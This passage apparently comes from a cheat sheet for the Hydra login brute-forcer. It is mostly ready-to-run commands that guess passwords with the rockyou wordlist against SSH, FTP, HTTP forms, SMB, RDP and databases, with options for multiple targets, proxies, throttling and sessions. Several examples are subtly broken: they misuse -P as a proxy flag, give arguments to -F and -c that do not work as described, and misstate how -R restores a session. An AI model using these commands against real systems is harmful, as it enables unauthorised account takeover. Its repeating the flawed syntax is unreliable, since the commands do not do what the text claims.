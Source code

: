 ```bash
# List of targets in a file (one per line)
hydra -l admin -P /usr/share/wordlists/rockyou.txt -M targets.txt ssh

# Directly specify multiple targets
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 ssh://10.10.10.11
```

### Username:Password Format

```bash
# Using colon file format
hydra -C user_pass.txt ssh://10.10.10.10

# Format of user_pass.txt:
# user1:pass1
# user2:pass2
```

### Using Proxies

```bash
# HTTP proxy
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get-form://10.10.10.10/login.php:user=^USER^&pass=^PASS^:F=failed -e ns -x 3:1:1 -o hydra-http-post-attack.txt -s 80 -m /login -4 -P http://proxy:3128
```

### Random Timing and Throttling

```bash
# Add random delay between attempts (1-5 seconds)
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -c 1:5

# Exit after specified number of valid passwords
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -F 3
```

### Session Management

```bash
# Save session and restore if needed
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -o session_output.txt

# Restore previous session
hydra -R -o session_output.txt
```

## Quick Reference Table

| Service         | Example Command                                                                                  |
| --------------- | ------------------------------------------------------------------------------------------------ |
| SSH             | `hydra -l user -P pass.txt ssh://10.10.10.10`                                                    |
| FTP             | `hydra -l user -P pass.txt ftp://10.10.10.10`                                                    |
| HTTP Basic Auth | `hydra -l user -P pass.txt http-get://10.10.10.10/admin/`                                        |
| HTTP POST Form  | `hydra -l user -P pass.txt 10.10.10.10 http-post-form "/login:user=^USER^&pass=^PASS^:F=failed"` |
| SMB             | `hydra -l user -P pass.txt smb://10.10.10.10`                                                    |
| RDP             | `hydra -l user -P pass.txt rdp://10.10.10.10`                                                    |
| MySQL           | `hydra -l user -P pass.txt mysql://10.10.10.10`                                                  |
| PostgreSQL      | `hydra -l user -P pass.txt postgres://10.10.10.10`                                               |